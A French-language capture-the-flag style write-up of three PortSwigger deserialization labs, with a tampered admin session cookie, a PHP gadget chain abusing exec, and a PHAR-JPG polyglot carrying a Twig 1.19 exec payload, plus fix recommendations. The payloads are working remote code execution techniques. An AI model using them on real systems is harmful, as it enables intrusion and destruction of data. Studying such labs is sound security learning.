


```
Lab: Modifying serialized objects

APPRENTICE

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter 
```

O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
> Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30

/admin/delete?username=carlos

---

```
Lab: Developing a custom gadget chain for PHP deserialization

EXPERT

This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
```
# observation :

On observe la ligne commentée suivante : 
```html
<!-- TODO: Refactor once /cgi-bin/libs/CustomTemplate.php is updated -->
```
GET /cgi-bin/libs/CustomTemplate.php~

- Le scénario est le suivant :
```
    - Certains éditeurs de texte stockent des copies de sauvegarde ou de "travail" du fichier que vous êtes en train de modifier sous la forme du même nom de fichier, mais avec un tilde (~) à la fin. Le tilde signifie souvent "ceci est généré par le système, ne vous en préoccupez pas".
    - Ces fichiers peuvent parfois rester après la fin de l'édition, soit parce que l'éditeur n'est pas configuré pour les supprimer, soit parce que l'éditeur est tué sans être fermé correctement.
    En ajoutant un tilde à la fin d'une URL, vous pouvez avoir la chance de tomber sur l'une de ces copies de sauvegarde qu'un webmestre a accidentellement laissée (ou téléchargée) sur son site de production.
    - Le serveur web ne l'interprétera pas à l'aide d'un interpréteur de script parce que l'extension est différente (par exemple, il ne s'agit pas de ".php") ; il revient donc à son comportement par défaut pour les extensions de fichiers inconnues, à savoir le téléchargement d'un fichier.
    - Vous pouvez lire le code source de leur script.
```
- On obtient alors le code source du fichier :

```php
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

- nom d'utilisateur : `Carlos` utile ?

Voici ce que l'on doit faire :

```php
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
````

Ce qui donne la chaine suivante :

```
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
````

Base64 :
```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319
````

# Recommandations :

- Supprimer la référence à la classe DefaultMap, qui est utilisée pour exécuter du code malveillant.

- Utiliser des accesseurs (getHtmlDesc et getTextDesc) pour accéder aux propriétés de la classe Description, afin d'empêcher l'accès direct aux propriétés et d'ajouter une couche de validation.

- Supprimer la sérialisation de la propriété desc dans la méthode __sleep de la classe CustomTemplate, pour éviter que du code malveillant ne soit sérialisé et exécuté lors de la désérialisation.

- Dans la méthode __wakeup de la classe CustomTemplate, appeler la méthode build_product qui va reconstruire l'objet $product en utilisant la propriété $default_desc_type.

---

```
Lab: Using PHAR deserialization to deploy a custom gadget chain

EXPERT

This lab does not explicitly use deserialization. However, if you combine PHAR deserialization with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain.

To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
```

# Observations :
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain
## SCAN :
```
┌──(kali㉿kali)-[~]
└─$ dirb https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/     

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Apr  6 17:37:47 2023
URL_BASE: https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/ ----
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/analytics (CODE:200|SIZE:0)                                                                                         
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/cgi-bin (CODE:200|SIZE:786)                                                                                         
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/cgi-bin/ (CODE:200|SIZE:786)                                                                                        
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/favicon.ico (CODE:200|SIZE:15406)                                                                                   
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/login (CODE:200|SIZE:3697)                                                                                          
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/Login (CODE:200|SIZE:3697)                                                                                          
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/logout (CODE:302|SIZE:0)                                                                                            
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/my-account (CODE:302|SIZE:0)                                                                                        
+ https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/post (CODE:400|SIZE:27)                                                                             
-----------------
END_TIME: Thu Apr  6 17:41:38 2023
DOWNLOADED: 4612 - FOUND: 9
```

Résultat interessant : /cgi-bin

> https://0a0c0064047ea91881ef393c007b00b7.web-security-academy.net/cgi-bin



- CustomTemplate.php~ :
```php
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```
- Blog.php~ :
```php
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```



> Version vulnérable : Twig <= 1.19.0

On a donc l'utilisation d'une version vulnérable de Twig

## Twig - Code execution
payload : 
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
````

- Référence : Payload all the things 

> Also you should check the Wrapper Phar:// in File Inclusion which use a PHP object injection.

On remarque que l'on peut acceder à notre image téléversé depuis le chemin suivant : `/cgi-bin/avatar.php?avatar=wiener`
Le serveur n'accepte que les images de type JPG. 

https://github.com/kunte0/phar-jpg-polyglot

Essayons de crée un JPG contenant une archive PHP (fichier Phar) contenant notre code sérailisé.

On utilise l'outil phar jpg polyglot afin de generer l'image


```
┌──(kali㉿kali)-[/opt/phar-jpg-polyglot]
└─$ sudo php -c php.ini phar_jpg_polyglot.php

string(215) "O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"user";s:4:"xmco";s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";}}"
```

Il ne reste plus qu'a upload l'image, et l'appeler avec `phar://` pour executer la déserialisation :
> /cgi-bin/avatar.php?avatar=phar://wiener

Well done ! :)

---
# Recommandation :

- Mettre à jour le framework Twig vers une version > 1.19.0

---
